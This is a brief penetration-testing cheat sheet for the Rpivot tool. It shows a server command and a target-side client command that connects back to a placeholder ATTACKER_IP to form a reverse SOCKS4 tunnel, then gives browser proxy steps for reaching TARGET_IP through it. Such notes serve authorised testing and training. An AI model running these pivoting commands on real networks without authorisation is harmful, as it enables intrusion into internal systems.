# Rpivot

## Github repo: https://github.com/klsecservices/rpivot.git

## SOCKS4 proxy

    python server.py --server-port 9999 --server-ip ATTACKER_IP --proxy-ip 127.0.0.1 --proxy-port 1080 (Attacker)

    python client.py --server-ip ATTACKER_IP --server-port 9999 (Target)

### Now go to the web browser, then go to "Connections Settings"

#### 1) Manual proxy configuration

#### 2) On "SOCKS Host", write 127.0.0.1 on port 1080

#### 3) Click the "SOCKS v4" radio button

#### 4) On "No proxy for", write 127.0.0.1

#### 5) Browse to TARGET_IP
